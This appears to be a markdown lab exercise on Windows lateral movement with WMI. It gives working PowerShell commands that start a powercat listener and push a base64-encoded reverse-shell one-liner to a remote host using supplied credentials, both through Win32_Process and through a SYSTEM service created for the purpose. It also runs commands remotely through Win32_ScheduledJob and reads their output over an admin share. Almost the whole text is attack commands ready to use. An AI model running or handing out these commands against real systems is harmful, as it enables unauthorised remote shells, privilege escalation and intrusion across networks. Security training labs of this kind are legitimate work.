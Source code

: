 ## Hands On 7
### Lateral Movement
#### Get a reverse shell on WMI server using Win32_Process
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up (Using Powershell reverse shell from PayloadOfAllThings)
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

#### Get a reverse shell on a WMI server using Win32_Service
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up (Using Powershell reverse shell from PayloadOfAllThings)
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false,"My Reverse Shell",$errorcontrol,$null,$null,"ReverseShell","C:\Windows\System32\cmd.exe /c powershell -e $base64string",$null,$servicetype ,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds | Invoke-WmiMethod -Name StartService
```

#### Retrieve output of Win32_Process by writing the output to a text file on a target box
```
$command = "cmd.exe /c ipconfig /all > C:\Windows\Temp\output.txt"
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

Use the following to map a PowerShell drive to retrieve the contents of the commands
```
New-PSDrive -Name "PSDrive" -PSProvider "FileSystem" -Root "\\Win7x64\C$"  -Credential $user3_creds
Get-ChildItem -Path PSDrive:
Get-Content -Path PSDrive:\Windows\temp\output.txt
```

Remove the drive when finished

`Remove-PSDrive -Name PSDrive`

#### Use Win32_ScheduledJob for command execution on any computers
`Invoke-WmiMethod -Class Win32_Scheduledjob -Name Create -ArgumentList "cmd.exe /c dir c:\users > C:\Windows\Temp\output.txt",$null,$null,$false,$false,********152300.000000-300 -ComputerName Win7x64 -Credential $user3_creds`

